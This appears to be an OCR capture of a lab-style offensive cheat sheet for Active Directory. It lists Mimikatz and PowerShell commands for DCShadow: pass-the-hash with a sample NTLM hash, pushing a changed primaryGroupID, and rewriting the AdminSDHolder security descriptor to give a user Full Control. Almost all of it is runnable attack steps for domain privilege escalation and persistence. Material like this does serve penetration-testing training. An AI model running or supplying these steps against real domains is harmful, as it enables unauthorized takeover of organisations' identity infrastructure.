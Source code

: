 ```
 - Mimikatz1 (RPC servers - Needs SYSTEM privileges)
mimikatz # !+
mimikatz # !processtoken
mimikatz # token::whoami        # Check if SYSTEM
mimikatz # lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519

- Mimikatz2 (Push - Needs Domain Admin or similar)
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /user:Administrator /domain:domain.local /ntlm:71d04f9d50ceb1f64de7a09f23e6dc4c /impersonate
mimikatz # lsadump::dcshadow /push        # Need Domain Admin
OR
PS C:\> Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:domain.local /ntlm:71d04f9d50ceb1f64de7a09f23e6dc4c /run:powershell.exe"'
PS C:\> Set-DCShadowPermissions -FakeDC mcorp-student1 -SAMAccountName root1user -Username student1 -Verbose        # To use without Domain Admin
- Mimikatz2 (Push - Can be run as student1) (right-click -> Run as administrator)
mimikatz # lsadump::dcshadow /push        # Do not need Domain Admin
```

- Modify ntSecurityDescriptor for AdminSDHolder to add Full Control for a user

```
# First, get the ACE of an admin already in the Security Descriptor Definition Language (SDDL) of AdminSDHolder: SY, BA, DA or -519 e.g. (A;;CCDCLCSWRPWPLOCRSDRCWDWO;;;BA)
PS C:\> (New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=domain,DC=local")).psbase.ObjectSecurity.sddl | Set-Clipboard

# Second, we just need to append a Full Control ACE from above for SY, BA, or DA with our user's SID at the end e.g. (A;;CCDCLCSWRPWPLOCRSDRCWDWO;;;S-1-5-21-1874506631-3219952063-538504511-45138)

 - Mimikatz1 (RPC servers)
mimikatz # !+
mimikatz # !processtoken
mimikatz # token::whoami        # Check if SYSTEM
mimikatz # lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=domain,DC=local /attribute:ntSecurityDescriptor /value:O:DAG:DAD:PAI(A;;LCRPLORC;;;AU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SY)(A;;CCDCLCSWRPWPLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPLOCRRCWDWO;;;DA)(A;;CCDCLCSWRPWPLOCRRCWDWO;;;S-1-5-21-280534878-1496970234-700767426-519)(OA;;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;;WD)(OA;CI;RPWPCR;91e647de-d96f-4b70-9557-d63ff4f3ccd8;;PS)(OA;;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;;PS)(OA;;RP;4c164200-20c0-11d0-a768-00aa006e0529;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;;RP;037088f8-0ae1-11d2-b422-00a0c968f939;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;;LCRPLORC;;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;;LCRPLORC;;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;;RP;037088f8-0ae1-11d2-b422-00a0c968f939;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;;RP;5f202010-79a5-11d0-9020-00c04fc2d4cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;;RP;4c164200-20c0-11d0-a768-00aa006e0529;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;;RP;46a9b11d-60ae-405a-b7e8-ff8a58d456d2;;S-1-5-32-560)(OA;;RPWP;6db69a1c-9422-11d1-aebd-0000f80367c1;;S-1-5-32-561)(OA;;RPWP;5805bc62-bdc9-4428-a5e2-856a0f4c185e;;S-1-5-32-561)(OA;;RPWP;bf967a7f-0de6-11d0-a285-00aa003049e2;;CA)(A;;CCDCLCSWRPWPLOCRSDRCWDWO;;;S-1-5-21-1874506631-3219952063-538504511-45138)

- Mimikatz2 (Push - Needs Domain Admin or similar)
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /user:Administrator /domain:domain.local /ntlm:71d04f9d50ceb1f64de7a09f23e6dc4c /impersonate
mimikatz # lsadump::dcshadow /push        # Need Domain Admin
OR
PS C:\> Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:domain.local /ntlm:71d04f9d50ceb1f64de7a09f23e6dc4c /run:powershell.exe"'
PS C:\> Set-DCShadowPermissions -FakeDC mcorp-student1 -SAMAccountName root1user -Username student1 -Verbose        # To use without Domain Admin
- Mimikatz2 (Push - Can be run as student1) (right-click -> Run as administrator)
```